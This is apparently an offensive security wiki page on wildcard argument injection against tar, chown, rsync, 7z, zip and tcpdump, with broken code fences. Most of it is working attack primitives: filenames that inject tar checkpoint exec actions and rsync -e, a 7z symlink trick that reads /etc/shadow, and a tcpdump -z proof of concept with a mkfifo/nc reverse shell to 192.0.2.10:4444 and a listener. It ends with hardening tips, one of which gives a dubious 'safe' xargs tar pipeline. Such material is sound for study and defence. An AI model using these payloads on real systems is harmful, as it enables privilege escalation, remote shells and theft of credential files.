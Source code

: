 # Wildcards Spare Tricks


> Wildcard (aka *glob*) **argument injection** happens when a privileged script runs a Unix binary such as `tar`, `chown`, `rsync`, `zip`, `7z`, … with an unquoted wildcard like `*`.  
> Since the shell expands the wildcard **before** executing the binary, an attacker who can create files in the working directory can craft filenames that begin with `-` so they are interpreted as **options instead of data**, effectively smuggling arbitrary flags or even commands.  
> This page collects the most useful primitives, recent research and modern detections for 2023-2025.

## chown / chmod

You can **copy the owner/group or the permission bits of an arbitrary file** by abusing the `--reference` flag:

```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
```
When root later executes something like:

```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
```
`--reference=/root/secret``file` is injected, causing *all* matching files to inherit the ownership/permissions of `/root/secret``file`.

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (combined attack).  
See also the classic DefenseCode paper for details.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Execute arbitrary commands by abusing the **checkpoint** feature:

```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
```
Once root runs e.g. `tar -czf /root/backup.tgz *`, `shell.sh` is executed as root.

### bsdtar / macOS 14+

The default `tar` on recent macOS (based on `libarchive`) does *not* implement `--checkpoint`, but you can still achieve code-execution with the **--use-compress-program** flag that allows you to specify an external compressor.

```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
```When a privileged script runs `tar -cf backup.tar *`, `/bin/sh` will be started. 

---

## rsync

`rsync` lets you override the remote shell or even the remote binary via command-line flags that start with `-e` or `--rsync-path`:

```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
```
If root later archives the directory with `rsync -az * backup:/srv/`, the injected flag spawns your shell on the remote side.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mode).

---

## 7-Zip / 7z / 7za

Even when the privileged script *defensively* prefixes the wildcard with `--` (to stop option parsing), the 7-Zip format supports **file list files** by prefixing the filename with `@`.  Combining that with a symlink lets you *exfiltrate arbitrary files*:

```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
```
If root executes something like:

```bash
7za a /backup/`date +%F.7z -t7z -snl -- *
```
```
7-Zip will attempt to read `root.txt` (→ `/etc/shadow`) as a file list and will bail out, **printing the contents to stderr**.

---

## zip

`zip` supports the flag `--unzip-command` that is passed *verbatim* to the system shell when the archive will be tested:

```bash
zip result.zip files -T --unzip-command "sh -c id"
```
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## Additional binaries vulnerable to wildcard injection (2023-2025 quick list)

The following commands have been abused in modern CTFs and real environments.  The payload is always created as a *filename* inside a writable directory that will later be processed with a wildcard:

| Binary | Flag to abuse | Effect |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → arbitrary `@file` | Read file contents |
| `flock` | `-c <cmd>` | Execute command |
| `git`   | `-c core.sshCommand=<cmd>` | Command execution via git over SSH |
| `scp`   | `-S <cmd>` | Spawn arbitrary program instead of ssh |

These primitives are less common than the *tar/rsync/zip* classics but worth checking when hunting.

---

## tcpdump rotation hooks (-G/-W/-z): RCE via argv injection in wrappers

When a restricted shell or vendor wrapper builds a `tcpdump` command line by concatenating user-controlled fields (e.g., a "file name" parameter) without strict quoting/validation, you can smuggle extra `tcpdump` flags. The combo of `-G` (time-based rotation), `-W` (limit number of files), and `-z <cmd>` (post-rotate command) yields arbitrary command execution as the user running tcpdump (often root on appliances).

Preconditions:

- You can influence `argv` passed to `tcpdump` (e.g., via a wrapper like `/debug/tcpdump --filter=... --file-name=<HERE>`).
- The wrapper does not sanitize spaces or `-`-prefixed tokens in the file name field.

Classic PoC (executes a reverse shell script from a writable path):

```sh
# Reverse shell payload saved on the device (e.g., USB, tmpfs)
cat > /mnt/disk1_1/rce.sh <<'EOF'
#!/bin/sh
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 192.0.2.10 4444 >/tmp/f
EOF
chmod +x /mnt/disk1_1/rce.sh

# Inject additional tcpdump flags via the unsafe "file name" field
/debug/tcpdump --filter="udp port 1234" \
  --file-name="test -i any -W 1 -G 1 -z /mnt/disk1_1/rce.sh"

# On the attacker host
nc -6 -lvnp 4444 &
# Then send any packet that matches the BPF to force a rotation
printf x | nc -u -6 [victim_ipv6] 1234
```
```
Details:

- `-G 1 -W 1` forces an immediate rotate after the first matching packet.
- `-z <cmd>` runs the post-rotate command once per rotation. Many builds execute `<cmd> <savefile>`. If `<cmd>` is a script/interpreter, ensure the argument handling matches your payload.

No-removable-media variants:

- If you have any other primitive to write files (e.g., a separate command wrapper that allows output redirection), drop your script into a known path and trigger `-z /bin/sh /path/script.sh` or `-z /path/script.sh` depending on platform semantics.
- Some vendor wrappers rotate to attacker-controllable locations. If you can influence the rotated path (symlink/directory traversal), you can steer `-z` to execute content you fully control without external media.

Hardening tips for vendors:

- Never pass user-controlled strings directly to `tcpdump` (or any tool) without strict allowlists. Quote and validate.
- Do not expose `-z` functionality in wrappers; run tcpdump with a fixed safe template and disallow extra flags entirely.
- Drop tcpdump privileges (cap_net_admin/cap_net_raw only) or run under a dedicated unprivileged user with AppArmor/SELinux confinement.

## Detection & Hardening

1. **Disable shell globbing** in critical scripts: `set -f` (`set -o noglob`) prevents wildcard expansion.
2. **Quote or escape** arguments: `tar -czf "$dst" -- *` is *not* safe — prefer `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Explicit paths**: Use `/var/www/html/*.log` instead of `*` so attackers cannot create sibling files that start with `-`.
4. **Least privilege**: Run backup/maintenance jobs as an unprivileged service account instead of root whenever possible.
5. **Monitoring**: Elastic’s pre-built rule *Potential Shell via Wildcard Injection* looks for `tar --checkpoint=*`, `rsync -e*`, or `zip --unzip-command` immediately followed by a shell child process. The EQL query can be adapted for other EDRs. 

---

## References

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (last updated 2025)  
* Rutger Flohil – “macOS — Tar wildcard injection” (Dec 18 2024)
* GTFOBins – [[https://gtfobins.github.io/gtfobins/tcpdump/|tcpdump]]
* FiberGateway GR241AG – [[https://r0ny.net/FiberGateway-GR241AG-Full-Exploit-Chain/|Full Exploit Chain]]

